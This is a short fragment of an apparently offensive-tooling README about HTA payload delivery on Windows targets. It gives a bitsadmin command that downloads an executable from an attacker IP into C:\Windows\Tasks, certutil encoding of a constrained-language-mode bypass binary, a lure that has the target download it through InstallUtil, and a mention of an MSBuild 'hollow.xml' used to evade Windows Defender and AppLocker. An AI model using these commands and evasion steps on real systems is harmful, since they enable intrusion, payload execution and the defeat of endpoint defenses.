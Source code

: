 ## InstallUtil (installutil.hta)

*Note: If* `curl` *is unavailable on the target system, use* `bitsadmin` *as an alternative:*

- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile a C# executable that implements a custom PowerShell runspace.

- Convert the compiled executable to a text file using `certutil`:

  - `certutil -encode clm-bypass.exe file.txt`

- Utilize the InstallUtil template to prompt the target to download the `file.txt` file, initiating the execution process.

## MSBuild (msbuild.hta)

- Leverage the `hollow.xml` file, available at hollow.xml, to bypass Windows Defender and AppLocker default rules.
